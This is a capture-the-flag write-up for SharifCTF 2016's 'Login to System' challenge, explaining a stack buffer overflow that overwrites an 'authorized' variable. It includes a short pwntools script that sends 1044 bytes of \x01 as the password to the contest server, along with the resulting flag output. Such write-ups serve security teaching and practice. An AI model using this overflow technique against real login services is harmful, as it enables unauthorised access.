 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-06T22:31:14+01:00"
title = "SharifCTF 2016 Login to System (PWN 200) Writeup"
+++

# Problem

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Run and capture the flag!
>
> Download

Points: 200

Solved by 106 team(s)

# Solution

We are provided with a x86-64 linux executable:
~~~
Question: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76aad63504451c70d8aa4e72299d2821fcf1b9f1, stripped
~~~

It is a server that starts a new thread that handles each incoming TCP connection on port 27515.

- The handler function prints a welcome message and reads your username and password.
- Then it checks if a stack variable, let's call it `authorized`, is `1`.
- If true, read the flag from file system and prints it.

There are several strange things going on here.
- Username and password are both able to overwrite the stack.
- The stack value `authorized` is read but never written to.

I was over thinking here and thought awesome - let's smash the stack jump into the true case in the if clause and get the flag. So I spent of time trying to get a nice ROP to do what I wanted. Big waste of time.

It turns out that the stack value `authorized` is located after both username and password, so the solution was to just fill the stack with \x01 and get the flag.

~~~
#!/usr/bin/env python2

from pwn import *
context(os = 'linux', arch = 'amd64')

r = remote('ctf.sharif.edu', 27515)

print r.recv()

r.sendline("Hello") # username
print r.recv()

r.sendline("\x01"*(1044)) # password
print r.recv()
~~~

Running it gets us the flag immediately.

~~~
Please enter your username and then press enter: Hello
Please enter your password and then press enter: \x01...
You are already logged in! Your flag is: cgjxkkbmdhudbovtezyv
~~~


*Flag is cgjxkkbmdhudbovtezyv*
